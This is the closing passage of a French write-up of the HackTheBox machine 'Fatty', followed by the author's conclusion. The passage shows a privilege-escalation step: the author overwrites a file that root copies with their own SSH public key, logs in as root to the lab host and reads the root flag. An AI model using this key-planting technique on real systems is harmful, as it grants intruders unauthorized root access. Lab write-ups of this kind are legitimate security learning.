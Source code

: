 ```bash
echo "ssh-rsa AAAAB <REDACTED> vHXw== driikolu@Terweb" > id_rsa.pub
cp id_rsa.pub /opt/fatty/tar/logs.tar
```

Là encore on attend le scp puis sur notre machine on fait

```bash
ssh root@10.10.10.174
```

Et nous avons un accès SSH direct en root. Il ne nous reste plus qu'à lire le *root.txt*.

```bash
cat root.txt 
	ee982fa19b413415391ed4a17b2bd9c7
```

# Conclusion

J'ai trouvé cette box très intéréssante, c'était ma première de niveau "Insane" et je pense que celui-ci n'est pas volé. J'ai appris quelques trucs en la faisant (notamment sur CommonsCollections) et ça m'a permis de me remettre légèrement au Java.

Par contre, si ça n'avait pas été dans un contexte CTF/HackTheBox je pense que je n'aurais jamais trouvé la vulnérabilité de désérialisation. Dans ce genre de contexte quasiment tout a un sens et il existait forcément un chemin vers un accès serveur. En cas réel j'aurais probablement mis ça de côté.

Même si les clients lourds se font de plus en plus rare dans l'informatique, j'ai trouvé ça réaliste à ce niveau avec peut-être un bémol sur la *privesc* qui restait sympathique.



